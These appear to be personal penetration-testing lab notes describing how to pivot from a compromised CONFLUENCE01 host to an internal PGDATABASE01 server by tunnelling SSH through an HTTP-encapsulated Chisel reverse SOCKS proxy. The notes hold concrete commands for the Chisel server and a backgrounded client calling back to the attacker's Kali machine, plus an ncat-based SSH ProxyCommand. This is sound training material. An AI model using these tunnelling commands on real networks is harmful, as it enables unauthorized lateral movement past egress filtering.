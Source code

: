 >[!info]- Info - Network Setup (only outbound HTTP traffic from victim allowed)
>We want to SSH directly to PGDATABASE01 through CONFLUENCE01. We need a tunnel into the internal network, but it must resemble an outgoing HTTP connection from CONFLUENCE01.
>![Pasted image 20240519044752](Pasted%20image%2020240519044752.png)

>[!info]- Info - Chisel
>Chisel encapsulates data within HTTP packets. It also uses the SSH protocol within the tunnel so the data is encrypted.
>
>___
>
>Chisel uses a client/server model. A _Chisel server_ accepts a connection from the _Chisel client_.

>[!exploit]- Exploit - Using Chisel
>![Pasted image 20240519051047](Pasted%20image%2020240519051047.png)
>1. We will run a Chisel server on Kali, which will accept a connection from a Chisel client running on CONFLUENCE01.
>2. Chisel will bind a SOCKS proxy port on Kali.
>3. The Chisel server will encapsulate whatever we send through the SOCKS port and push it through the HTTP tunnel, SSH-encrypted.
>4. The Chisel client will then decapsulate and push the received traffic to wherever it is addressed.

>[!code]- Download correct version
>###### Uname -m then...
>![Pasted image 20241121052848](Images/Pasted%20image%2020241121052848.png)
###### SOCKS proxy

```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Set up Chisel
		Note over K: chisel server --port 8080<br>--reverse
		Note over C: chisel client 192.168.118.4:8080<br>R:socks > /dev/null 2>&1 &
		C-->>K: (Chisel tunnel)<br>port 8080 #8592; C
		activate K
		K-->>K: Setup listener on<br>127.0.0.1:1080
		deactivate K
		activate K
		K-->>C: (Chisel tunnel)<br>port 1080 #8594; C
		deactivate K
	end
	critical SSH via Chisel tunnel
		Note over K: ssh -o ProxyCommand=<br>'ncat --proxy-type socks5<br> --proxy 127.0.0.1:1080 %h %p'<br>database_admin@10.4.50.215
		K->>C: (Chisel tunnel)<br>K #8594; C
		activate C
		C->>P: (Forwarded by Chisel client)<br>C #8594; port 22
		deactivate C
		P->>K: SSH shell<br>(Effectively)
	end
```
